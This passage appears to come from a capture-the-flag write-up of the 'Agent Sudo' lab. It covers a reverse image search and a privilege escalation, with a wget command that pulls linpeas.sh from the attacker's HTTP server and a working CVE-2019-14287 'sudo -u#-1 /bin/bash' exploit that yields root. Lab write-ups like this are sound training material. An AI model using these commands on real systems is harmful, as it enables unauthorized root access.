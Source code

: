 Lets reverse image search it.

im using https://tineye.com/

found the incident: https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment

Now we must privesc!

lets put linpeas on the box

````shell

┌──(kali㉿kali)-[~/Documents/AgentSudo]

└─$ python3 -m 'http.server'                          

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

````

````shell

james@agent-sudo:~$ wget http://10.6.19.46:8000/linpeas.sh

--2023-02-03 14:56:11--  http://10.6.19.46:8000/linpeas.sh

Connecting to 10.6.19.46:8000... connected.

HTTP request sent, awaiting response... 200 OK

Length: 828098 (809K) [text/x-sh]

Saving to: ‘linpeas.sh’

linpeas.sh                                                 100%[========================================================================================================================================>] 808.69K   957KB/s    in 0.8s   

2023-02-03 14:56:12 (957 KB/s) - ‘linpeas.sh’ saved [828098/828098]

james@agent-sudo:~$

`````

And run it!

I didn't see anything interesting in that, but we did see that james as perms for

   (ALL, !root) /bin/bash

when we ran sudo -l earlier.

exploitDB says CVE-2019-14287 can be used for privesc

lets try sudo -u#-1 /bin/bash

````shell

james@agent-sudo:~$ sudo -u#-1 /bin/bash

root@agent-sudo:~# whoami

root

root@agent-sudo:~#

````
